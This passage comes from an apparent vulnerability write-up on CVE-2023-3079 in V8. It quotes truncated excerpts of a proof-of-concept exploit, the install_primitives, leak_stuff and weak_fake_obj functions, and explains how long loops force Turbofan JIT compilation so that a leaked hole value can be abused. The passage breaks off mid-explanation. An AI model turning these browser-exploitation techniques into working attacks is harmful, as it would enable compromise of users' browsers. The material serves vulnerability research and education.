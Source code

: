 ```c
// cve-2023-3079.js

function install_primitives() {

    for(let i = 0; i < 10; i++) {
        weak_fake_obj(true, 1.1);
    }
    for(let i = 0; i < 20000; i++) {
        weak_fake_obj(false, 1.1);
    }

    for(let i = 0; i < 1000; i++) {
        leak_stuff(true);
    }
    for(let i = 0; i < 20000; i++) {
        leak_stuff(false);
    }
    // ...
  }
```

This explains the huge loop counter in the writeup, as well as in our POC, which basically tries to run the function many many times until the Turbofan engine kicks in to optimize and JIT compile the relevant code.

If we look at these two functions, we can see that these are also the functions that tries to do stuff using the leaked hole, which is in line with the excerpt mentioned above. From this, we can understand that the POC primarily tries to trigger the exploit in the `leak_stuff` and `weak_fake_obj` functions, and these are also functions that require to be JIT compiled and optimized by turbofan.

```js
function leak_stuff(b) {
    if(b) {
        let index = Number(b ? the.hole : -1);
        index |= 0;
        index += 1;
        // ...
    }
}

function weak_fake_obj(b, addr=1.1) {
    if(b) {
        let index = Number(b ? the.hole : -1);
        index |= 0;
        index += 1;
        // ...
    }
}
```

If we run the POC again, with the flag `--trace-opt`, which traces functions that are optimized by our JIT compiler, we will see the following:
